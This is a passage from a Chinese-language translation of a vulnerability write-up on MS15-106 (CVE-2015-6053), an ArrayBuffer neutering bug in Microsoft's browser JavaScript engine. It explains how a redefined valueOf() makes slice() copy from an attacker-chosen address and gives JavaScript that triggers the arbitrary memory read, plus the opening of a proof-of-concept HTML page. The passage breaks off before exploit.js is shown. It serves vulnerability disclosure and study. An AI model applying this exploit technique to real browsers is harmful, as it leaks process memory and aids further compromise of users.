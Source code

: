 (译者：原文这里说得不是很明白，其实就是通过重定义valueOf()函数，强迫对象被Neutered，指针清零，导致后面的start_argument被当做读取地址，形成任意地址读的漏洞)

ArrayBuffer在Js::ArrayBuffer::EntrySlice()函数里被意外地结扎后，这个函数试着去创建一个被结扎的ArrayBuffer对象的副本：

![p8](http://drops.javaweb.org/uploads/images/ec2f89758a107da9bd93515d09e9e40f17fe6b4e.jpg)

函数memcpy()的参数具体如下：

*   dst参数指向新的ArrayBuffer对象的ptr_to_raw_data字段(新ArrayBuffer对象会被ArrayBuffer.slice()函数返回)
*   src参数为ptr_to_raw_data + start_argument
*   size参数为end_argument – start_argument

问题出现在src参数上，由于ArrayBuffer被结扎，src参数应该计算成ptr_to_raw_data + start_argument = 0 + start_argument，这导致在调用memcpy(new_arraybuffer, arbitrary_src, arbitrary_size)的时候，我们可以泄露浏览器进程的任意地址内存。

同时要注意，start_argument和end_argument会被和原来的ArrayBuffer里的byteLength对比检查，也就是说，要泄露任意地址X的内容，被攻击者操纵的ArrayBuffer的byteLength数值必须必X大。比如，想要在地址0x1a1b2000处读取4bytes内容的话，必须这样做：

```
var address = 0x1a1b2000;

/* Size of the ArrayBuffer must be greater than the 'start' and 'end' arguments for slice() */
var arrbuf = new ArrayBuffer(address + 0x10);

/* The 'Trigger' object implements the valueOf() method, which neuters arrbuf in the middle of the slice() operation, and finally returns the end offset (address+4). */
var trigger = new Trigger(address + 4, arrbuf);

/* Trigger the vulnerability. Note that the 2nd argument isn't a primitive value but an object. slice() will return a new ArrayBuffer object containing a copy of the 4 bytes stored @ address 0x1a1b2000 */
var kslice = arrbuf.slice(address, trigger);

/* Finally, create a DataView on the new ArrayBuffer object and read a dword from it. Bingo! */
var leaked_dword= new DataView(kslice).getUint32(0, true);

```

0x03 Proof of Concept
=====================

* * *

我们来看POC，这是index.html的代码：

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <title>MS15-106 PoC (CVE-2015-6053)</title>
    <script type="text/javascript" src="exploit.js"></script>
</head>
<body>
    <h1>MS15-106 PoC (CVE-2015-6053)</h1>

    <div>

        <div>
            <fieldset>
                <button id="workersButton">Transfer/neuter ArrayBuffer</button>
                <div id="outputBoxWorkers"></div>
            </fieldset>
        </div>
    </div>

</body>
</html>
```